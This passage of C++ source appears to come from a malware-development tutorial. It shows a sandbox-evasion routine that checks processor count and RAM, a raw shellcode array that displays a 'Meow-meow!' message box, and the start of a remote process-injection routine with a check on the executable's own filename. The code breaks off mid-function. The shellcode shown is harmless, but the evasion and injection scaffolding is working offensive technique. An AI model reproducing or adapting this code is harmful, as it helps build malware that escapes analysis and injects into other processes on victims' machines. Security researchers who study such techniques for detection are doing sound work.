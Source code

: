 ```cpp
  }
}

// resource check
BOOL checkResources() {
  SYSTEM_INFO s;
  MEMORYSTATUSEX ms;
  DWORD procNum;
  DWORD ram;

  // check number of processors
  GetSystemInfo(&s);
  procNum = s.dwNumberOfProcessors;
  if (procNum < 2) return false;

  // check RAM
  ms.dwLength = sizeof(ms);
  GlobalMemoryStatusEx(&ms);
  ram = ms.ullTotalPhys / 1024 / 1024 / 1024;
  if (ram < 2) return false;

  return true;
}

int main(int argc, char* argv[]) {

  // meow-meow messagebox x64 windows
  unsigned char my_payload[] = 
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  DWORD pid; // process ID
  pid = atoi(argv[1]);

  // what is my name???
  if (strstr(argv[0], "hack2.exe") == NULL) {
    printf("What's my name? WTF?? :(\n");
    return -2;
```